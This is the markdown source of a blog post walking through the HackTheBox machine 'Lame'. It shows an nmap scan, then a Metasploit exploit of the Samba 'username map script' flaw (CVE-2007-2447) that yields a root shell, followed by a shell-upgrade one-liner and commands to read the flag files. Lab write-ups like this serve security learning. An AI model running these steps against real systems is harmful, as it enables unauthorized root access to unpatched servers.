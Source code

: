 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Lame"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Lame is an easy HackTheBox machine created by ch4p. It involves exploiting a vulnerable samba server.                                            
img: htb-lame/lame-info-card.png                                                 
tags: [HackTheBox, HTB, Lame, Samba, Writeup, CVE-2007-2447]
---
```


Lame is an easy HackTheBox machine created by [ch4p](https://app.hackthebox.com/users/1). It involves some simple enumeration and the exploitation of a known Samba vulnerability.

# Enumeration 

To kick off this box, let's run a Nmap scan to see what services and ports are open. 

```
nmap -sC -sV 10.129.203.142 -oN top_1000
```

The scan shows that the ports for FTP (21), SSH (22), and Samba (139 & 445) are open. 

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-12T11:43:07-04:00
```

# Exploitation
Samba is infamously known for being chock-full of vulnerabilities. So, I'm going to start by checking for known exploits. After a quick Google search, I found that Samba 3.0.20 is vulnerable to [CVE-2007-2447](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script) A.K.A. "Samba Username Map Script Command Execution". 

This exploit is conveniently a Metasploit module. So, I will use Metasploit to carry out this attack. 

To begin, I'll type `msfconsole` into the commandline. 

From there, I'll find the module by using Metasploit's search feature:

```
msf6 > search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

The exploit is the only one available. To get Metasploit to use this module, type `use 0` and then `show options`. 

You should get something that looks like this:

![msf options]({{site.baseurl}}/assets/img/htb-lame/msf-options.png)   

From here, I'll set the `LHOST` and `RHOSTS` parameters. 

- LHOST is your listening address. For most people, this will be equal to your `tun0` value (you can find this by using the `ifconfig` command). 
- RHOSTS is the machine's IP address. 

To set these values, use the following commands: 

_Note: Sub \<ip_address\> for Lame's IP address._ 

```
set RHOSTS <ip_address>
set LHOST tun0
```

Once those values are set, we can exploit the machine! Do this by typing `exploit` and pressing `Enter`! If all went well, you should have a root shell on the machine (A.K.A INFINITE POWER :joy:).

_Optional: To make your shell look better, use this Python one-liner:_
```
python -c 'import pty; pty.spawn("/bin/bash");'
```

From here, you can collect the user and root flags by running the following commands.

```
[User] cat /home/makis/user.txt
[Root] cat /root/root.txt
```

I hope you enjoyed this writeup! Happy Hacking :) 

